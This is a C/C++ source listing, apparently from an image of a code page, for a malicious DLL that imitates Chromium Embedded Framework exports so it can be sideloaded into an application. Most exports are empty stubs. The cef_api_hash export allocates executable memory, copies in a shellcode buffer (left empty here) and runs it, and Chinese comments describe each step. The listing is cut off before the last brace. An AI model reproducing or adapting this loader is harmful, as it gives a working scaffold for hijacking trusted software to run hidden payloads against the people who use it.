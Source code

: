 ```
extern "C" __declspec(dllexport) int cef_string_list_value() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_list_size() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8context_get_current_context() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_dictionary_value_create() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_map_alloc() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_map_free() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_function() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_object() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_string() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_double() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_int() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_bool() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_v8value_create_null() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_value_create() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_list_value_create() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_api_hash() {
    /* length: 894 bytes */
    unsigned char sc[] = "";


    // 分配内存空间
    LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (addr == NULL) {
        return 1;
    }

    // 将shellcode复制到可执行内存中
    memcpy(addr, sc, sizeof(sc));

    // 执行shellcode
    ((void(*)())addr)();

    return 0;
```